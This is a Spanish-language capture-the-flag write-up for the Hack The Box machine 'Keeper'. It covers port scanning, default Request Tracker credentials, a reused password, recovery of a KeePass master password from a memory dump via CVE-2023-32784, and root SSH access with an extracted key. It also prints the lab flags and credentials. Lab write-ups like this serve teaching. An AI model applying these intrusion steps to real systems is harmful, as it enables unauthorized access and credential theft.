

# Keeper — Write-Up

| Campo | Detalle |
|---|---|
| **Máquina** | [Keeper](https://app.hackthebox.com/machines/Keeper) |
| **Plataforma** | [Hack The Box](https://hackthebox.com/) |
| **Sistema Operativo** | Linux (Ubuntu 22.04) |
| **Dificultad** | Fácil |
| **Flags** | 2 (user + root) |

---

## Reconocimiento

### Enumeración de puertos

```bash
nmap -p- -sCV -T5 10.129.229.41 -oN Keeper
```


| Puerto | Servicio | Versión |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.9p1 Ubuntu |
| 80/tcp | HTTP | nginx 1.18.0 (Ubuntu) |

---

## Enumeración Web

Al acceder al puerto 80 la página redirige a `tickets.keeper.htb/rt/`:


Para que el dominio resuelva correctamente, se añaden las entradas necesarias al archivo `/etc/hosts`:

```bash
echo "10.129.229.41  keeper.htb tickets.keeper.htb" >> /etc/hosts
```


Ahora se puede acceder al portal, que resulta ser una instancia de **Request Tracker (RT)** versión 4.4.4, un sistema de gestión de tickets de soporte:


### Credenciales por defecto

Se buscan las credenciales por defecto de Request Tracker:


Las credenciales por defecto de RT son `root / password`. Se prueba directamente en el login y se obtiene acceso al panel de administración:


---

## Acceso Inicial — Credencial en comentario de usuario

Dentro del panel de RT se navega a *Admin → Users* para explorar los usuarios del sistema:


Hay dos usuarios: `root` y `lnorgaard` (Lise Nørgaard). Se accede al perfil de `lnorgaard`:


En el campo **Comments** aparece una nota dejada por el administrador:

```
New user. Initial password set to Welcome2023!
```

Se prueba esta contraseña para conectarse por SSH:

```bash
ssh lnorgaard@10.129.229.41
```


Acceso exitoso a **Ubuntu 22.04 LTS**.

### Flag de usuario

```bash
cat user.txt
```

Flag: **`47dcf69e1fef5fb9b922fddcba6982ba`**

---

## Escalada de Privilegios

### Enumeración de sudo

```bash
sudo -l
```


El usuario `lnorgaard` no tiene permisos de sudo. Sin embargo, al listar el directorio home se encuentran archivos interesantes:

```bash
ls
# KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip  user.txt
```


### Transferencia de archivos a Kali

Se descargan los archivos a la máquina atacante para analizarlos:

```bash
scp lnorgaard@10.129.229.41:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
```


El ZIP contiene:
- `KeePassDumpFull.dmp` — volcado de memoria del proceso KeePass
- `passcodes.kdbx` — base de datos KeePass cifrada

### Extracción de la contraseña maestra — CVE-2023-32784

**KeePass 2.x** tiene una vulnerabilidad (CVE-2023-32784) que permite recuperar la contraseña maestra casi completa a partir de un volcado de memoria del proceso, ya que KeePass deja rastros de la contraseña en memoria en texto plano durante la entrada por teclado.

Se clona la herramienta de explotación:

```bash
git clone https://github.com/vdohney/keepass-password-dumper.git
```


Se ejecuta contra el volcado de memoria:

```bash
dotnet run ../KeePassDumpFull.dmp
```


La herramienta recupera la contraseña con el primer carácter desconocido:

```
●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

El fragmento `dgrød med fløde` es suficiente para buscarlo en Google:


Google corrige y sugiere **rødgrød med fløde**, un postre tradicional danés. Esta es la contraseña maestra completa.

### Acceso a la base de datos KeePass

Se abre la base de datos con `kpcli` usando la contraseña recuperada:

```bash
kpcli
kpcli:/> open passcodes.kdbx
# Provide the master password: rødgrød med fløde
```


Se navega por la base de datos hasta encontrar la entrada relevante:

```
kpcli:/> cd passcodes/Network/
kpcli:/passcodes/Network> show 0 -f
```


La entrada `keeper.htb (Ticketing Server)` contiene:

| Campo | Valor |
|---|---|
| **Usuario** | `root` |
| **Contraseña** | `F4><3K0nd!` |
| **Notas** | Clave privada SSH en formato PuTTY (`.ppk`) |

### Conversión de la clave PuTTY a formato OpenSSH

Se copia la clave privada PuTTY de las notas y se guarda en un archivo `putty-key.ppk`:


Se convierte al formato OpenSSH con `puttygen`:

```bash
puttygen putty-key.ppk -O private-openssh -o id_rsa
```


Se ajustan los permisos del archivo:

```bash
chmod 600 id_rsa
```


### Conexión SSH como root

```bash
ssh root@10.129.229.41 -i id_rsa
```


Acceso exitoso como **root**.

### Flag de root

```bash
ls
cat root.txt
```



Flag: **`2e00cb722cb6405ed49a371f10aa4d62`**

---

## Resumen

| Fase | Técnica | Herramienta |
|---|---|---|
| Enumeración | Port Scan | `nmap` |
| Web | Resolución de dominio virtual | `/etc/hosts` |
| Acceso al panel | Credenciales por defecto (RT) | Navegador |
| Credencial de usuario | Contraseña en comentario de perfil RT | Navegador |
| Acceso inicial | SSH con credencial encontrada | `ssh` |
| Análisis forense | Volcado de memoria KeePass (CVE-2023-32784) | `keepass-password-dumper` |
| Acceso a KeePass | Contraseña maestra recuperada del dump | `kpcli` |
| Clave privada | Conversión PuTTY → OpenSSH | `puttygen` |
| Escalada | SSH como root con clave privada | `ssh -i id_rsa` |
